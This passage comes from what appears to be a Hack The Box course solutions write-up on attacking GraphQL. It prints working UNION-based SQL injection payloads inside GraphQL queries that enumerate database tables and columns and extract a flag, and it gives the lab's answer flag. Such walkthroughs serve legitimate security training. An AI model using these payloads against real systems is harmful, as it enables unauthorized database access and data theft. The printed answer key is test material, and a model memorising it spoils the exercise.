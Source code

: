 Code: graphql

```graphql
{
  user(username: "student' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```

![[HTB Solutions/Others/z. images/7bafe401ab1ed24489df08cffaf4a1b3_MD5.jpg]]

Next, students will modify the `graphql` SQL injection payload to display the columns in the `flag` table to find the columns `id` and `flag` in the table:

Code: graphql

```graphql
{
  user(username: "student' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='flag'-- -") {
    username
  }
}
```

![[HTB Solutions/Others/z. images/f3270d4ebab4c31a6dfbffe98aa20629_MD5.jpg]]

Subsequently, students will modify the `graphql` SQL injection payload to grab the value (flag) in the `flag` column of the `flag` table:

Code: graphql

```graphql
{
  user(username: "student' UNION SELECT 1,2,flag,4,5,6 FROM flag-- -") {
    username
  }
}
```

![[HTB Solutions/Others/z. images/f81ad07dba2dbfb6f40d14f72238b422_MD5.jpg]]

Answer: `HTB{1105f1d9480ac244a0c8f2bc47594581}`

# Mutations

## Question 1

### "What is the flag you find in the admin dashboard?"

After spawning the target, students will proceed to clone [graphw00f](https://github.com/dolevf/graphw00f) to find and fingerprint the GraphQL endpoint on the target using the `-f` (fingerprint mode), `-d` (detect mode) and `-t` (target URL) options:
